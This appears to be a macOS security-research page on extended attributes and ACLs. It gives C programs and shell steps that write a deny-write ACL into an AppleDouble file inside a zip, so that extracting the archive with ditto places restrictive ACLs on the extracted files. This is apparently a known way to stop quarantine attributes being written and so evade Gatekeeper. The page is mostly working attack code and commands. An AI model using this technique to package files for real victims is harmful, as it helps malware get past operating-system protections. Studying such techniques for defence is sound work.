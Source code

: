 # macOS xattr-acls extra stuff


```bash
rm -rf /tmp/test*
echo test >/tmp/test
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" /tmp/test
./get_acls test
ACL for test:
!#acl 1
group:ABCDEFAB-CDEF-ABCD-EFAB-CDEF0000000C:everyone:12:deny:write,writeattr,writeextattr,writesecurity,chown

ACL in hex: \x21\x23\x61\x63\x6c\x20\x31\x0a\x67\x72\x6f\x75\x70\x3a\x41\x42\x43\x44\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x2d\x41\x42\x43\x44\x2d\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x30\x30\x30\x30\x30\x30\x30\x43\x3a\x65\x76\x65\x72\x79\x6f\x6e\x65\x3a\x31\x32\x3a\x64\x65\x6e\x79\x3a\x77\x72\x69\x74\x65\x2c\x77\x72\x69\x74\x65\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x65\x78\x74\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x73\x65\x63\x75\x72\x69\x74\x79\x2c\x63\x68\x6f\x77\x6e\x0a
```
```

**Code of get\_acls**


```c
// gcc -o get_acls get_acls
#include <stdio.h>
#include <stdlib.h>
#include <sys/acl.h>

int main(int argc, char *argv[]) {
    if (argc != 2) {
        fprintf(stderr, "Usage: %s <filepath>\n", argv[0]);
        return 1;
    }

    const char *filepath = argv[1];
    acl_t acl = acl_get_file(filepath, ACL_TYPE_EXTENDED);
    if (acl == NULL) {
        perror("acl_get_file");
        return 1;
    }

    char *acl_text = acl_to_text(acl, NULL);
    if (acl_text == NULL) {
        perror("acl_to_text");
        acl_free(acl);
        return 1;
    }

    printf("ACL for %s:\n%s\n", filepath, acl_text);

    // Convert acl_text to hexadecimal and print it
    printf("ACL in hex: ");
    for (char *c = acl_text; *c != '\0'; c++) {
        printf("\\x%02x", (unsigned char)*c);
    }
    printf("\n");

    acl_free(acl);
    acl_free(acl_text);
    return 0;
}
```
```


```bash
# Lets add the xattr com.apple.xxx.xxxx with the acls
mkdir start
mkdir start/protected
./set_xattr start/protected
echo something > start/protected/something
```
```

**Code of set\_xattr**


```c
// gcc -o set_xattr set_xattr.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/xattr.h>
#include <sys/acl.h>

void print_xattrs(const char *filepath) {
    ssize_t buflen = listxattr(filepath, NULL, 0, XATTR_NOFOLLOW);
    if (buflen < 0) {
        perror("listxattr");
        return;
    }

    char *buf = malloc(buflen);
    if (buf == NULL) {
        perror("malloc");
        return;
    }

    buflen = listxattr(filepath, buf, buflen, XATTR_NOFOLLOW);
    if (buflen < 0) {
        perror("listxattr");
        free(buf);
        return;
    }

    printf("All current extended attributes for %s:\n", filepath);
    for (char *name = buf; name < buf + buflen; name += strlen(name) + 1) {
        printf("%s: ", name);
        ssize_t valuelen = getxattr(filepath, name, NULL, 0, 0, XATTR_NOFOLLOW);
        if (valuelen < 0) {
            perror("getxattr");
            continue;
        }

        char *value = malloc(valuelen + 1);
        if (value == NULL) {
            perror("malloc");
            continue;
        }

        valuelen = getxattr(filepath, name, value, valuelen, 0, XATTR_NOFOLLOW);
        if (valuelen < 0) {
            perror("getxattr");
            free(value);
            continue;
        }

        value[valuelen] = '\0';  // Null-terminate the value
        printf("%s\n", value);
        free(value);
    }

    free(buf);
}

int main(int argc, char *argv[]) {
    if (argc != 2) {
        fprintf(stderr, "Usage: %s <filepath>\n", argv[0]);
        return 1;
    }

    const char *hex = "\x21\x23\x61\x63\x6c\x20\x31\x0a\x67\x72\x6f\x75\x70\x3a\x41\x42\x43\x44\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x2d\x41\x42\x43\x44\x2d\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x30\x30\x30\x30\x30\x30\x30\x43\x3a\x65\x76\x65\x72\x79\x6f\x6e\x65\x3a\x31\x32\x3a\x64\x65\x6e\x79\x3a\x77\x72\x69\x74\x65\x2c\x77\x72\x69\x74\x65\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x65\x78\x74\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x73\x65\x63\x75\x72\x69\x74\x79\x2c\x63\x68\x6f\x77\x6e\x0a";
    const char *filepath = argv[1];

    int result = setxattr(filepath, "com.apple.xxx.xxxx", hex, strlen(hex), 0, 0);
    if (result == 0) {
        printf("Extended attribute set successfully.\n\n");
    } else {
        perror("setxattr");
        return 1;
    }

    print_xattrs(filepath);

    return 0;
}
```
```


```bash
# Create appledoublefile with the xattr entitlement
ditto -c -k start protected.zip
rm -rf start
# extract the files
unzip protected.zip
# Replace the name of the xattr here (if you put it before ditto would have destroyed it)
python3 -c "with open('._protected', 'rb+') as f: content = f.read().replace(b'com.apple.xxx.xxxx', b'com.apple.acl.text'); f.seek(0); f.write(content); f.truncate()"
# zip everything back together
rm -rf protected.zip
zip -r protected.zip protected ._protected
rm -rf protected
rm ._*
```
```
```bash
# Check if it worked
ditto -x -k --rsrc protected.zip .
xattr -l protected
```
```



